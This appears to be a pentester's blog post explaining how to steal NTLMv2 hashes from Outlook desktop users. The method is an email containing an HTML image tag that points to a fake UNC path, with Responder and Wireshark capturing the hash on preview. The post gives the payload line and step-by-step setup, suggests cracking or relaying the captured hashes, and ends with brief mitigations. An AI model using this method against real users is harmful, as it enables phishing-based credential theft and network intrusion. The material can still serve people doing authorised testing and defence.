 ```yaml
---
title:  "Getting that first Foothold - Stealing NTLMv2 hashes with ease"
header:
  teaser: "/assets/images/ntlmb2_captured.png"
categories:
  - NTLMv2 hashes
tags:
  - NTLMv2
  - hashes
  - Responder
  - Outlook
  - foothold
  - smb
  - llmnr
  - mdns
  - nbns
---
```


Well it's already been a month since my last post, and that's just way to long.  Time gets ahead of me these days, especially being as interested in so many areas of Infosec as I am.  Today I want to discuss a tried and true method of securing that first potential foothold on the target network for your pentest campaign.  Does this always work?  Absolutely not. However, you had better believe if certain items are in order it's highly probable you can carry this out undetected and with a few NTLMv2 hashes under your belt.

First things first, I don't want to explain what an NTLMv2 hash is.  There are copius amounts of information on the web and of course ChatGPT can elaborate even more on the specifics of the authentication challenge-response based protocol.

We are going to focus more on the actual attack methodology behind stealing these lovely hashes.  Let's start with some assumptions.  You will need at least ONE of these conditions to be true for this to work:

- Your target user base is using the Desktop Outlook client
- You know some user's company email addresses
- You are physically present, as in on the premises. OR... you are on the network via VPN, positioned in such a way that your attacker PC is on the same VLAN as the target PCs VLAN
- The target network firewall does NOT block ALL outbound ports 445, 139, 5353, and 5355 (Not entirely necessary for this write-up but just keep this in mind for later) 😺

***Stage 1 - Setup***
-

So, here's how it begins.  You will want to install this extention for Google Chrome to follow along on this particular route to get your coveted NTLMv2 hash:
[Insert HTML by Designmodo Chrome Extension](https://chrome.google.com/webstore/detail/insert-html-by-designmodo/bcflbfdlpegakpncdgmejelcolhmfkjh)

Also be sure to have **Wireshark** installed too.  In the event you are **on-site** or using **VPN**, I'd like to show you what you can see when this attack is carried out.  That will come a little later in the writeup.

Once you have both **Wireshark** and **Designmodo** installed, go to your gmail account (I'm assuming you have that too 😸 ) and create a new email message

Click on this envelope icon in the bottom, next to the big blue **Send** button: ![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/f5ad0661-b401-4ee3-a5cc-b1f08d507562)

Next, type in the fake UNC path to your non-existent image: <img src="file://///silent/but/deadly.png">
![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/2632b2b7-e303-45cf-ba05-ad72a29e2a1d)

Then, Choose `Insert HTML`
![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/e38ace21-9cc9-40ea-859b-16e8943db708)

The body of your email message should have a broken image inside it, like so:
![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/be4c948d-2b75-4142-bff4-1c2531364bd1)

Okay, we're almost ready to send this now.  But before we do, I want you to know that the user does not even have to fully open the email for this to work.  They only merely have to **Preview** it in **Outlook** and this works immediately!

- Go ahead and fire up **Wireshark**, select your sniffing interface, and start listening for traffic...if you are on-site or using VPN and on the same VLAN as the customer user base.

- Also, we will need to load a tool called Responder which can intercept LLMNR, NBNS, and MDNS traffic.  This needs to run on the same network as the victim.

  Here's the link to the tool: [Responder for Linux](https://github.com/lgandx/Responder.git)

- Finally, you can now send that email to your target's email address and we will move on to phase 2 of the attack!

***Stage 2 - Infiltration***
-

When your email arrives, the target user will see what is captured in the below image.  Be sure to name the uncpath something realistic as they will be able to see this in the email preview:
![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/a53ba76c-73cd-4755-9b46-ceb64d955cbf)

On your Linux Box, you should see a captured NTLMv2 hash assuming the user interacts with your email!  Here's what mine looks like.  Keep in mind I already captured this hash so it shows a different message but trust me, it worked:
![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/ae4ed132-5e3c-4a2e-b2c4-c16681c02db1)

And Wireshark...

Do a Control + F and type in `silent` or whatever word you used in your UNC filepath:
![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/5b85d79d-d9a6-4931-869b-eb8e6be80e81)

You can see your exact packet contents after the target user interacted with your email.  I say interacted...remember, they don't even need to fully open it, as in double clicking on it.  Just previewing it is enough

From here, you can crack the password using hashcat or relay it to another computer, the skies the limit!  

***Addendum***
-

You can also send the hash outside of the target company network to a device you control on an entirely different ISP, AWS, Azure, etc.  This would mean you don't have to be on-premesis at all.  HOWEVER, the company firewall MUST ALLOW the ports for these protocols outbound for you to receive the hash.

I don't have time to demo this today, but I can show you sometime if I get enough people asking for a demonstration.  😸

***Lessons Learned***
-

I tried blocking all images in Outlook and this attack still works.  I'm shocked actually.  Given the right circumstances, this is quite trivial to carry out.  Long story short:

- Disable Legacy protocols such as LLMNR, NBNS, AND MDNS.
- Use the highest available SMB/NTLM security offering.  Such as this one:** Send NTLMv2 responses only. Refuse LM & NTLM**
- Block the corresponding ports for LLMNR, NBNS, and MDNS outbound on your firewall
- Figure out how to make Outlook Desktop client better or turn off email previews 😕

  Know of other ways to combat this attack?  Feel free to comment below or hit me up on X!
  thanks everyone!

**-R.B.C.**

